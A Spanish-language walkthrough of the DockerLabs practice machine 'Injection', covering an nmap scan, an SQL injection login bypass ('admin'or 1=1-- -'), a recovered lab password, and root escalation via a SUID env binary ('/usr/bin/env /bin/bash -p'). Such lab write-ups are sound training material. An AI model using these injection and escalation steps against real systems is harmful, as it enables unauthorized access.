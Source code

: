 Maquina INJECTION de [DockerLabs](https://dockerlabs.es)

Dificultad: Muy Fácil

Creador: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

![DockerLabs](./imagenes/Injection.png)

# INTRUSION

Comenzamos haciendo un escaneo con nmap:

```css
nmap -sVC 172.17.0.2
```

```ruby
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 14:58 -03
Nmap scan report for 172.17.0.2
Host is up (0.00028s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.72 seconds
```

Vemos que solo esta abierto el puerto 22 y 80, sabiendo esto nos iremos directo al navegador y vemos un `panel de login`. Luego de probar las credenciales tipias como `admin:admin` o `root:root` pero ninguna funciona, por lo que continuaremos con probar una inyeccion sql, para esto, `escribiremos el usuario y junto a el 'or 1=1-- -` y de contraseña lo que sea, finalmente quedaria así:

```css
admin'or 1=1-- -
```

Habiendo hecho esto logramos iniciar sesion y nos dan el siguiente mensaje:
![Acceso](./imagenes/dylan.png)

Ahora continuaremos probando el usuario "dylan" con la contraseña "KJSDFG789FGSDF78". Ya estamos dentro.

# ESCALADA DE PRIVILEGIOS

Lo primero que hacemos es ejecutar `sudo -l` pero como no existe ejecutamos `find / -perm -4000 2>/dev/null` y vemos que el binario `env` sale como `/usr/bin/env`, por lo que buscamos en [GTFOBins](https://gtfobins.github.io) y vemos que si ejecutamos lo siguiente escalamos de privilegios a root:

```css
/usr/bin/env /bin/bash -p
```

y listo, somos ROOT.

![root](./imagenes/root.png)



Gracias por leer.



Si te interesa:

[INSTAGRAM](https://instagram.com/macim0_)